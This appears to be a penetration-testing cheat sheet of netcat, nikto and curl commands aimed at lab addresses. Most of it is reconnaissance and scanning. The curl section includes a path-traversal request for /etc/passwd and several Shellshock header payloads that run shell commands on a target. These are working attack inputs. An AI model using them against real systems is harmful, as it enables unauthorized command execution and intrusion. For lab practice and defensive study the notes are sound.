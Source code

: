 #### netcat
- banner grabbing - `nc $ip <port>`
- banner grabbing - `echo -e 'GET / HTTP/1.1\r\n' | nc $RHOST $RPORT`

#### nikto
> 
```text
edit /etc/nikto.conf for the user agent
USERAGENT=Mozilla/5.00 (Nikto/@VERSION) (Evasions:@EVASIONS) (Test:@TESTID)
```

- basic scan - `nikto -h $ip`
- HTTP - `nikto -h <IP or hostname> -Format+ txt`
- HTTPS - `nikto -h <IP or hostname> -ssl -Format+ txt`
- use Target.txt file - `nikto -h targetIP.txt`
- discover vulnerability & pair it with a weaponized exploit - `nikto -h <IP or hostname> -Format msf+`
- scan for SQLi Vulnerabilities - `nikto -Tuning 9 -h <IP or hostname>`
- Scan for everything exemp DOS - `nikto -Tuning x 6 -h <IP or hostname>'
- scan through a Proxy - `nikto -host http://10.11.1.44:8000'
- useproxy - `nikto -h 192.168.100.163 --useproxy http://192.168.100.163:3128`
- Save scan results to a file - `nikto -Display V -o results.html -Format htm -Tuning x 6 -h <IP or hostname>` 
- example - `nikto -host "http://10.13.38.21:5985" | tee "recon/nikto_10.13.38.21_5985.txt"`
- example - `nikto -Display V -o results.html -Format txt -Tuning x 6 -h <IP or hostname>` 
- example - `nikto -C all -h http://10.11.1.72"`
- example - `nikto -host 10.10.10.10[:8080] -output nikto.[name].txt`


#### enum site 
- `wget https://site.local -o foo-bar`


#### curl
- basic use - `curl -i -L 10.11.1.71` 
- https - `curl -I $URL -k`
- https - `curl -v $URL -i -H "Range: bytes=0-1023" -k`
- Upload Files - `curl -F ‘data=@path/to/local/file’ UPLOAD_ADDRESS`
- example - `curl -F 'img_avatar=@/home/petehouston/hello.txt' http://localhost/upload`
- Upload multiple files - `curl -F 'fileX=@/path/to/fileX' -F 'fileY=@/path/to/fileY' ... http://localhost/upload`
- Upload an array of files - `curl -F 'files[]=@/path/to/fileX' -F 'files[]=@/path/to/fileY' ... http://localhost/upload`
- You send off an HTTP upload using the -T option with the file to upload:
    `curl -T uploadthis http://example.com/`
- robots.txt - curl 10.11.1.71/robots.txt -s | html2text`
- cgi - `curl -i http://10.11.1.71/cgi-bin/admin.cgi`
- cgi - `curl -i http://10.11.1.71/cgi-bin/admin.cgi -s | html2text`
- cgi - `curl -i http://10.11.1.71/cgi-bin/test.cgi -s > test.cgi.txt`
- cgi - `curl 'http://10.11.1.71/cgi-bin/admin.cgi' -i -s > before`
- cgi - `curl 'http://10.11.1.71/cgi-bin/admin.cgi?list=../../../../../../../../../../etc/passwd' -i -s > after`
- cgi - `curl -H 'User-Agent: () { :; }; echo "CVE-2014-6271 vulnerable" bash -c id' http://10.11.1.71/cgi-bin/admin.cgi`
- cgi - `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'ls /home/root'" \http://10.11.1.71/cgi-bin/user.sh`
- cgi - `curl http://10.11.1.71/cgi-bin/admin.cgi -s > before`
- cgi - `curl -H 'User-Agent: () { :; }; echo "CVE-2014-6271  vulnerable" bash -c id' http://10.11.1.71/cgi-bin/admin.cgi -s >  after diff before after`
- robots.txt - `curl -i $ip robots.txt`
- 302 Error Eumeration - `curl -L http://sourceforge.net/projects/sofastatistics/files/latest/download?source=files -o foo.deb`
- Get Options available from web server - `curl -vX OPTIONS vm/test`
- chain 2 commands together - `curl -H "User-Agent: () { :; }; bash -c 'echo aaaa; uname -a; echo zzzz;'" http://10.11.1.71/cgi-bin/admin.cgi`
